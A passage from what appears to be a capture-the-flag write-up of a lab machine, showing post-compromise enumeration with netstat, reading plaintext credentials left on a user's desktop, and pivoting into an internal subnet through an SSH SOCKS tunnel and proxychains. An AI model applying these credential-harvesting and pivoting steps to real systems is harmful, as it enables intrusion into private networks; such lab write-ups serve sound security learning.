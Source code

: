 My first reflex was to check what services were reachable from the internal. 

```
$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:5902          0.0.0.0:*               LISTEN      -               
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5900          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -               
udp        0      0 192.168.122.1:53        0.0.0.0:*                           -               
udp        0      0 0.0.0.0:67              0.0.0.0:*                           -               
udp        0      0 0.0.0.0:631             0.0.0.0:*                           -               
udp        0      0 0.0.0.0:58192           0.0.0.0:*                           -               
udp6       0      0 :::5353                 :::*                                -               
udp6       0      0 :::48208                :::*                                -   
```

Note that local IP adress `192.168.122.1:53` is on another network. 

Since nmap was disabled for the `www-data` user, I try to run `socat` and `ncat` in order to be able to do port forwarding, but they wasn't installed. Then it took a second to find the files left on the desktop, which allowed me to rotate through ssh!

```bash
cat key
itscominghome

cat /home/dave/Desktop/ssh
dave
Dav3therav3123

cat Servers 
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
```

```
ssh -fNtD 9050 dave@10.10.10.109 [-L 127.0.0.1:8888:192.168.122.4:80]
proxychains firefox 192.168.122.4
```
